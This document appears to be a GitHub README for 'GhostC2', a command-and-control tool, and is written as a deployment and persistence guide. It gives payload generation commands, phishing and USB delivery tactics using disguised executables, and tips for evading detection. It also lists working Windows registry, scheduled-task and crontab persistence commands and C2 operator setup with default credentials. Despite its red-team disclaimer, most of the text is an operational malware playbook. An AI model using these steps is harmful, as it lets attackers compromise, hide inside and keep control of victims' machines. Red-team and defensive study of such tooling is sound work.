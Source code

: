 # 💉 GhostC2 Deployment & Persistence Guide

> **DISCLAIMER**: This document is intended for authorized red team operations, cybersecurity research, or academic use **only**. Do not deploy GhostC2 or any of its payloads on systems you do not have explicit permission to access.

---

## 📦 Payload Generation

Generate a polymorphic GhostC2 payload:

```bash
python tools/generate_payload.py --exe
```

Output:
```
builds/ghost_payload_<timestamp>.py
builds/ghost_payload_<timestamp>.exe
```

Use the `.exe` for Windows deployments or `.py` for testing/Linux targets.

---

## 🎯 Delivery Vectors

Choose a method to deliver the payload to the target:

### 1. **Phishing Email**
- Attach the `.exe` disguised as a document (`tracker_invoice.exe`)
- Use social engineering to entice execution

### 2. **Dropper/Downloader**
- Use a lightweight macro or PowerShell stager to fetch and run the payload

### 3. **Removable Media (USB)**
- Drop the payload on a USB stick with a misleading filename
- Optionally use a LNK shortcut to trigger execution

### 4. **Exploit Delivery (Lab)**
- Use exploit frameworks (e.g., `msfvenom`, `exploitdb`) to execute your payload remotely

---

## 🧊 Obfuscation Tips

- Use `--exe` to build as a binary
- Add junk imports or fake error handling to blend in
- Rename file to look legitimate (e.g. `update_service.exe`, `printer_patch.exe`)
- Use reverse proxy over port 443 to hide C2 traffic

---

## 🔁 Adding Persistence

Once the payload runs on a Windows host:

### 🪟 **Option 1: Registry Key**
```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v ghostsvc /d "%APPDATA%\ghost.exe" /f
```

### 🪟 **Option 2: Scheduled Task**
```powershell
schtasks /create /tn "GhostUpdate" /tr "%APPDATA%\ghost.exe" /sc onlogon /rl highest /f
```

> Place the payload in a hidden folder like `%APPDATA%\Microsoft\Update\ghost.exe`

### 🐧 **Linux/macOS Crontab**
```bash
(crontab -l ; echo "@reboot /usr/local/bin/ghost") | crontab -
```

---

## 🧠 Tips for C2 Operators

- Run the server using:
```bash
cd server
python app.py
```

- Open [http://<your-ip>:8080](http://<your-ip>:8080) in your browser
- Login as:
  ```
  Username: admin
  Password: ghostpass123
  ```

- Send live commands from `/console`
- Results return instantly via WebSocket

---

## 🛡️ Hardening

- Run GhostC2 behind Nginx with TLS
- Change default login credentials
- Enable UFW / firewall rules to whitelist access

---

## ⚠️ Legal Notice

This tool is intended for ethical use in penetration testing labs, educational simulations, or red team operations **with permission**. Misuse can result in criminal charges.

Always follow the law, organizational policy, and responsible disclosure principles.
